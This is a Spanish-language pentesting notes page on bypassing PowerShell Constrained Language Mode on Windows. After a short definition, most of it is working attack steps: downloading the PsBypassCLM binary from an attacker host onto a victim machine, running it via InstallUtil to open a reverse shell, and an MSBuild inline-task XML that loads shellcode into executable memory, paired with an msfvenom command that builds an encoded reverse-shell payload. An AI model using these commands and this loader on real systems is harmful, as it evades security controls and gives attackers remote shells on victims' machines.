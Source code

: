 -----
- Tags: #bypass #teoria #practica #windows 
-----
# Constrained Language Mode (CLM)

El **Constrained Language Mode** (**CLM**) es una característica de seguridad que limita las capacidaddes del intérprete de *PowerShell* para reducir el riesgo de ejecución de comandos malicosos o no autorizados. Es una parte importante de las medidas de seguridad de PowerShell.

Cunado se habilita el CLM, se restringen muchas de las capacidades avanzadas de PowerShell, como la ejecución de scripts y comandos no firmados, el acceso a ciertos objetos y propiedades del sistema, y la posibilidad de cargar módulos no confiables. Esto se hace para reducir el riesgo de ataques que pueden aprovechar las capacidades avanzadas de PowerShell para ejecutar códgio malicoso.

Para validar si estamos en una sesión CLM podemos ejecutar el comando:

```powershell
$ExecutionContext.SessionState.LanguageMode
```

----
# Bypass de CLM

Los **bypass de Constrained Language Mode** son  una técnica o métodos utilizados para eludir o sortear el modo de lenguaje restringido (CLM) en PowerShell. Los *bypass* son una técnica utilizada por los atacntes para evadir las restricciones del CLM y ejecutar comandos en PowerShell de manera no autorizada. 
#### Bypass 1

Comandos a ejecutar en la máquina atacante:
```bash
git clone https://github.com/padovah4ck/PSByPassCLM

cd PSByPassCLM/PSBypassCLM/PSBypassCLM/bin/{arquitectura}/Debug

python3 -m http.server {port}
```

Comandos a ejecutar en la máquina víctima:
```powershell
Invoke-WebRequest -uri 'http://{Attacker_IP}/{port}/PsBypassCLM.exe' -Outfile '{name}'
```

Una vez transferido el binario, en el repositorio de la herramienta [PsBypassCLM](https://github.com/padovah4ck/PSByPassCLM) se nos indica un one liner a ejecutar, en caso de querer abrir una subconsola haciendo uso de la consola obtenida:

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U 'C:\{path}\{to}\{our}\{binary}\PsBypassCLM.exe'
```

O en caso de querer obtener una reverse shell a un puerto de nuestra máquina de atacante, el siguiente comando:

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost={Attacker_IP} /rport={port} /U 'C:\{path}\{to}\{our}\{binary}\PsBypassCLM.exe'
```

En cualquiera de los casos, sabremos que bypaseamos de manera exitosa esta restricción del CLM al ejecutar el comando:

```powershell
$ExecutionContext.SessionState.LanguageMode
```

Y obtener una respuesta con el output de **FullLanguage**. 

----
#### Bypass 2 

En este caso podríamos hacer uso del [recurso](https://pentestlab.blog/2017/05/29/applocker-bypass-msbuild/) para bypassear el **CLM** haciendo uso de **MSBuild.exe**.

Podríamos descargar el [archivo.xml](https://github.com/3gstudent/msbuild-inline-task/blob/master/executes%20shellcode.xml) el cual posteriormente modificariamos para inyectar nuestro propio **shellcode**.

Archivo.xml malicioso:
```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <!-- This inline task executes shellcode. -->
  <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
  <!-- Save This File And Execute The Above Command -->
  <!-- Author: Casey Smith, Twitter: @subTee --> 
  <!-- License: BSD 3-Clause -->
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
    
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using System.Runtime.InteropServices;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        public class ClassExample :  Task, ITask
        {         
          private static UInt32 MEM_COMMIT = 0x1000;          
          private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
          [DllImport("kernel32")]
            private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
            UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
          [DllImport("kernel32")]
            private static extern IntPtr CreateThread(            
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId           
            );
          [DllImport("kernel32")]
            private static extern UInt32 WaitForSingleObject(           
            IntPtr hHandle,
            UInt32 dwMilliseconds
            );          
          public override bool Execute()
          {
			< --------------------- SHELL CODE TO INSERT HERE --------------------- >
              
              UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
                MEM_COMMIT, PAGE_EXECUTE_READWRITE);
              Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
              IntPtr hThread = IntPtr.Zero;
              UInt32 threadId = 0;
              IntPtr pinfo = IntPtr.Zero;
              hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
              WaitForSingleObject(hThread, 0xFFFFFFFF);
              return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

Una vez descargado el archivo malicioso xml, deberiamos ingresar nuestro shellcode, para generarlo podemos hacer uso de **msfvenom**:

```bash
msfvenom --platform {platform} -a x86 -p windows/shell_reverse_tcp LHOST={Attacker_IP} LPORT={Attacker_PORT} -f csharp -e x86/shikata-ganai -i 20 -v shellcode
```

Una vez generado, lo insertariamos en el archivo .xml malicioso y ya editado el mismo deberiamos de subirlo a la máquina víctima con extensio *.csproj*:

```powershell
> C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe {file_uploaded}.csproj
```

En caso de ejecutar el anterior comando, estaríamos logrando ejecutar el **shellcode** ingresado, y como lo que hicimos fue generar un shellcode el cual envia una reverse shell a nuestro equipo por un determinado puerto, deberiamos recibir la conexión por el mismo.
